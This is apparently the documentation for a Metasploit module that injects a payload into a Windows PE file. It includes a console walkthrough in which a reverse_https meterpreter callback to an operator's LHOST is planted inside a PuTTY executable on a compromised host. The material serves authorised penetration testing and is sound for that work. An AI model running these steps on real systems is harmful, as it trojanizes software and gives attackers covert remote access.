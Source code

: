 ## Overview
This module inserts a payload into an existing PE file on a remote
machine.  When a user launches the binary, the payload will run
as a thread within the process with the same privs.

## Module Options
LHOST  IP of host that will receive the connection from the payload.
LPORT  Port for Payload to connect to.
OPTIONS Comma separated list of additional options for payload if needed in 'opt=val,opt=val' format.
PAYLOAD Windows Payload to inject into the targer executable.
SESSION The session to run this module on.
TARGETPE Path of the target executable to Path of the target executable to be injected

## Limitations
This process is not reverse-able.  If you would like to return the
binary to it's original state, save a copy.

THE PAYLOAD WILL NOT SPAWN AN INDEPENDENT PROCESS/THREAD AND THE SESSION
WILL DIE WITH THE BINARY AND/OR WILL KILL THE BINARY WHEN THE SESSION
EXITS.  Be careful closing sessions that were spawned using this method!

If a setting is wrong, it may cause the binary to fail to launch,
alerting the user to possible shinnanigans.

## Vulnerable Applications
`Vulnerable` is a bad term; this module inserts shellcode into a pe
file.  That means any Windows pe files are `vulnerable`.
Be aware that some files like calc.exe on later Windows versions
are not entirely normal in their behvior and are not `vulnerable`

## Verification steps
* get session on target
* `use post/windows/manage/peinjector`
* `set payload <payload>`
* `set lport <lport>`
* `set lhost <lhost>`
* `set targetpe <*.exe>`
* `run`

## Usage
```
meterpreter > sysinfo
Computer        : WIN10X64-1511
OS              : Windows 10 (Build 10586).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use post/windows/manage/peinjector 
msf5 post(windows/manage/peinjector) > show options

Module options (post/windows/manage/peinjector):

   Name      Current Setting                    Required  Description
   ----      ---------------                    --------  -----------
   LHOST                                        yes       IP of host that will receive the connection from the payload.
   LPORT     4433                               no        Port for Payload to connect to.
   OPTIONS                                      no        Comma separated list of additional options for payload if needed in 'opt=val,opt=val' format.
   PAYLOAD   windows/meterpreter/reverse_https  no        Windows Payload to inject into the targer executable.
   SESSION                                      yes       The session to run this module on.
   TARGETPE                                     no        Path of the target executable to be injected

msf5 post(windows/manage/peinjector) > set lhost 192.168.135.111
lhost => 192.168.135.111
msf5 post(windows/manage/peinjector) > set lport 4561
lport => 4561
msf5 post(windows/manage/peinjector) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf5 post(windows/manage/peinjector) > set session 1
session => 1
msf5 post(windows/manage/peinjector) > set targetpe 'C:\users\msfuser\downloads\puttyx64.exe'
targetpe => C:\users\msfuser\downloads\puttyx64.exe
msf5 post(windows/manage/peinjector) > show options

Module options (post/windows/manage/peinjector):

   Name      Current Setting                          Required  Description
   ----      ---------------                          --------  -----------
   LHOST     192.168.135.111                          yes       IP of host that will receive the connection from the payload.
   LPORT     4561                                     no        Port for Payload to connect to.
   OPTIONS                                            no        Comma separated list of additional options for payload if needed in 'opt=val,opt=val' format.
   PAYLOAD   windows/x64/meterpreter/reverse_https    no        Windows Payload to inject into the targer executable.
   SESSION   1                                        yes       The session to run this module on.
   TARGETPE  C:\users\msfuser\downloads\puttyx64.exe  no        Path of the target executable to be injected

msf5 post(windows/manage/peinjector) > run

[*] Running module against WIN10X64-1511
[*] Generating payload
[*] Injecting Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet) into the executable C:\users\msfuser\downloads\puttyx64.exe
[+] Successfully injected payload into the executable: C:\users\msfuser\downloads\puttyx64.exe
[*] Post module execution completed
msf5 post(windows/manage/peinjector) >
```

